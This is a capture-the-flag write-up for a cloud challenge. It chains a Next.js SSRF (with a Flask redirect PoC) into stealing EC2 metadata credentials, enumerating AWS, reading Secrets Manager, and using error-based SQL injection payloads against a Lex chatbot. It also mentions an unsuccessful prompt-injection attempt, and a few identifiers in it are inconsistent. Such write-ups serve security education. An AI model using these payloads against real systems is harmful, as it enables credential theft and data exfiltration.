

# Rabbit Hole

Category: Cloud
Difficulty: Hard
Author: kangwijen & Djumanto

## Description

My friend is obsessed with JoJo's Bizarre Adventure, so he built a themed website and asked me to deploy it.  Problem is... I kinda used my dad's AWS account without telling him 😅.

Can you take a look around <a href="http://18.138.234.126:3000/">the website</a> and see if there's anything sensitive exposed?

## Solution

1. Initial Reconnaissance

    Visit the provided site:

    ```bash
    http://18.138.234.126:3000/
    ```

    Searching the IP address using [ipinfo.io](https://ipinfo.io/) reveals that the website is hosted using AWS EC2 in the ap-southeast-1 region.

    

    Using Wappalyzer, we can see that the website is made using Next.js framework, with the specific version being `14.1.0`.

    

    A quick Google search reveals that this Next.js version is vulnerable to SSRF, specifically CVE-2024-34351.

    

2. Exploiting SSRF

    There's a feature on the website that utilizes the Next.js Server Actions which might be vulnerable to SSRF. If you click on the `Diavolo` element, it triggers a server-side request.

    

    According to [Next.js documentation](https://nextjs.org/docs/14/app/api-reference/functions/redirect), the `303 See Other` response is used when performing a redirect within a Server Action. To exploit this behavior, we create a proof of concept (PoC) using Python Flask that attempts to fetch data from the EC2 metadata service at `http://169.254.169.254/latest/meta-data/iam/security-credentials/`. We then expose the server publicly using [ngrok](https://ngrok.com/). The PoC is as follows:

    ```python
    from flask import Flask, request, Response, redirect

    app = Flask(__name__)

    @app.route('/Diavolo', methods=['HEAD', 'GET'])
    def index():
        if request.method == 'HEAD':
            print(request.headers)
            resp = Response("")
            resp.headers['Content-Type'] = 'text/x-component'
            return resp
        return redirect("http://169.254.169.254/latest/meta-data/iam/security-credentials/")
    app.run(port=5000)
    ```

3. Exploiting EC2 Metadata

    After running the PoC, we'll get the following response:

    

    This confirms that the SSRF is working. We can then try to fetch the credentials using the PoC which is accessible via the `http://169.254.169.254/latest/meta-data/iam/security-credentials/rabbit-hole-role-8af7c177f9ae8efb7f59bc82f32bee80` endpoint. Which gives us this response:

    

4. Enumerating the AWS Account

    Using the credentials, we can set up the AWS CLI and enumerate the account.

    ```bash
    aws configure set aws_access_key_id <access_key_id>
    aws configure set aws_secret_access_key <secret_access_key>
    aws configure set aws_session_token "<session_token>"
    ```

    Once configured, you can verify the current identity with:

    ```bash
    aws sts get-caller-identity
    ```

    

    This confirms that the credentials are from a role named `rabbit-hole-role-8af7c177f9ae8efb7f59bc82f32bee80` which was assumed by an EC2 instance `i-00c24b2d490183cd1`.

    Attempting to run 

    ```bash
    aws iam get-user
    ```

    Results in an `AccessDenied` error, as the assumed role does not have permission to query IAM users directly. Instead, we can try enumerating the permissions associated with the role:

    ```bash
    aws iam list-attached-role-policies --role-name rabbit-hole-role-8af7c177f9ae8efb7f59bc82f32bee80
    aws iam list-role-policies --role-name rabbit-hole-role-8af7c177f9ae8efb7f59bc82f32bee80
    ```

    

    This reveals that while the role does not have any attached policies, it does have one inline policy named rabbit-hole-policy. We can now retrieve the contents of this inline policy using:

    ```bash
    aws iam get-role-policy --role-name rabbit-hole-role-8af7c177f9ae8efb7f59bc82f32bee80 --policy-name rabbit-hole-policy
    ```

    But unfortunately, we get an `AccessDenied` error.

5. Using Automated Enumeration Tools

    We can use tool such as [aws-enumerator](https://github.com/shabarkin/aws-enumerator) to enumerate the services and resources available in the account.

    ```bash
    ./aws-enumerator enum -services all
    ```

    
    

    This reveals that the account has access to Amplify and Secrets Manager service.

6. Exploring Amplify and Secrets Manager

    We begin by listing accessible AWS Amplify apps and Secrets Manager secrets using the following commands:

    ```bash
    aws amplify list-apps
    aws secretsmanager list-secrets
    ```

    

    


    The commands reveal two findings:
    1. There is an Amplify app named `starlight-entertainment-68a894fc9057db03eda2a6fee7eb6199`, with the default domain `d1n33a9kxrty1e.amplifyapp.com`.
    2. There is a Secrets Manager secret named `starlight-entertainment-secrets-9b0bdf20d6cc59599b273232cff4311`.

7. Exploring the Amplify App

    Next, we try to access the public Amplify site using the discovered domain:

    ```bash
    http://production.d1n33a9kxrty1e.amplifyapp.com/
    ```

    Note: In AWS Amplify, each deployed branch is hosted under its own subdomain in the format `https://<branch-name>.<appId>.amplifyapp.com`. Since the app's only branch is named `production`, we append `production` to the domain.

    

    However, visiting the site results in a login prompt asking for a username and password, suggesting basic authentication is enabled.

8. Exploring the Secrets Manager Secret

    We then can try to access the Secrets Manager secret using the following command:

    ```bash
    aws secretsmanager get-secret-value --secret-id starlight-entertainment-secrets-9b0bdf20d6cc59599b273232cff43112
    ```

    

    This reveals that the secret is a JSON object containing a username and password.

9. Exploring the Amplify App, Again

    Since we have the username and password, we can try to access the Amplify app again. Entering the credentials, we now can access the website.

    

10. Exploring the Website

    The website is a landing page for a company called `Starlight Entertainment`. There's nothing much except for a chatbot.

    

    The chatbot is a AWS Lex chatbot.

11. Exploiting the Lex Chatbot

    The bot has the capability to schedule a meeting with the user by guiding them through a short interaction. It prompts the user to provide the following details: Recipient's name, Date of the meeting, Time, Meeting topic, and User's email address. The bot will then book a meeting with the user:

    
    

    We attempted to test the bot for AI-related vulnerabilities, such as prompt injection, but these attempts were unsuccessful. Next, we fuzzed the input fields using a basic one-liner payload targeting common web vulnerabilities such as SQL injection, XSS, command injection, SSRF, etc.

    ```bash
    ';alert(1);//"><script>alert(1)</script><!-- --><!--|echo hello|curl http://127.0.0.1 --><svg/onload=confirm(1)><!--${7*7}-->"||1=1--><iframe src="javascript:alert(1)"><!--file:///etc/passwd--><a href="gopher://127.0.0.1"><!--../../../../../../etc/passwd-->
    ```

    Submitting this payload resulted in a server-side error:

    

    We observed that most fields such as date, time, and email are properly validated or sanitized and reject such inputs. However, fields like recipient’s name and meeting topic are more permissive, making them viable targets for injection testing.

    While the error suggests that the input may be reaching a backend system unsanitized, further testing would be required to confirm whether a true SQL injection vulnerability exists. At this stage, the behavior simply indicates potential input handling weaknesses in some fields.

12. Verifying the SQL Injection

    To test for SQL injection, we begin by submitting a simple breaking payload:

    ```bash
    test'
    ```

    This results in the following error:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a@a.aa')' at line 2")
    ```

    This confirms that user input is being directly interpolated into a SQL query without sanitization indicating a likely SQL injection vulnerability. Next, to verify if error-based SQL injection is possible, we use a payload leveraging MySQL’s `EXTRACTVALUE()` function to provoke an error and leak information:

    ```bash
    test',EXTRACTVALUE(1,CONCAT(0x5c,VERSION())));--#
    ```

    It results in:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\8.0.41'")
    ```

    This confirms that the backend is running MySQL and the injection point is exploitable for error-based data exfiltration. The `/**/` comments are used to bypass filters that block regular spaces.

13. Exploiting the SQL Injection

    With the vulnerability confirmed, we begin enumerating database tables:

    ```bash
    test',EXTRACTVALUE(1,/**/CONCAT(0x5c,(SELECT/**/GROUP_CONCAT(table_name)/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA/**/=/**/'chatbot-db'))));--#
    ```

    This results in:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\backup_env,meetings'")
    ```

    We can see that the database has two tables: `backup_env` and `meetings`. Checking the contents of the `backup_env` table, we can see that it contains the following data:

    ```bash
    test',EXTRACTVALUE(1,/**/CONCAT(0x5c,(SELECT/**/GROUP_CONCAT(column_name)/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME/**/=/**/'backup_env'))));--#
    ```

    This results in:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\ITSEC{bd8f95175722b36d0068fa366'")
    ```

    We can see the start of a flag in the output, but the response is truncated. To get the remaining part, we use `SUBSTRING()` to extract the rest of the flag:

    ```bash
    test',EXTRACTVALUE(1,/**/CONCAT(0x5c,(SELECT/**/SUBSTRING((SELECT/**/password/**/FROM/**/backup_env),15,25)))));--#
    ```

    This results in:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\5722b36d0068fa36600a552a}'")
    ```

    And now we have the full flag.

Flag: `ITSEC{bd8f95175722b36d0068fa36600a552a}`

## Further Reading
- [Digging for SSRF in Next.js apps](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps)
- [CVE-2024-34351](https://nvd.nist.gov/vuln/detail/CVE-2024-34351)
- [Steal EC2 Metadata Credentials via SSRF](https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/)
- [Exploring Red Team Persistence via AWS Lex Chatbots](https://medium.com/@MorattiSec/the-crow-flies-at-midnight-exploring-red-team-persistence-via-aws-lex-chatbots-b3de1edb7893)
- [SQS and Lambda SQL Injection](https://tari.moe/86515239934d437598717461b7fe3a5c)